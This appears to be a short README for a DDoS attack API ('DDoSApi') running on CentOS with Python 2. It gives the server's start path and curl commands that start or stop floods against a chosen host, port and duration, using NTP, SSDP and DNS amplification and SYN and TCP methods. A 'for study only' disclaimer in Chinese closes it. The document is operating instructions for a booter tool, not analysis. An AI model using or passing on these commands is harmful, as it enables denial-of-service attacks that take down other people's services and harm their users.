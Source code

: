 命令执行接口调用

### Env
* Centos 6/7
* Python 2.6/2.7+

### Run
```
# /opt/DDoSApi/RunServer
```

### Call Api Example

* Task execution
```
# curl -sd "key=rootkit&host=[IP]&port=[PORT]&time=[time/sec]&thread=[threads]&method=[ntp|ssdp|dns|syn|tcp]&stop=0" http://ServerIp:Port/api
```

* Stop Task
```
# curl -sd "key=rootkit&host=[IP]&port=[PORT]&time=[time/sec]&thread=[threads]&method=[ntp|ssdp|dns|syn|tcp]&stop=1" http://ServerIp:Port/api
```

-- -
本代码仅供学习交流使用， 如用将该代码于非法用途所导致的后果自负，与作者无关...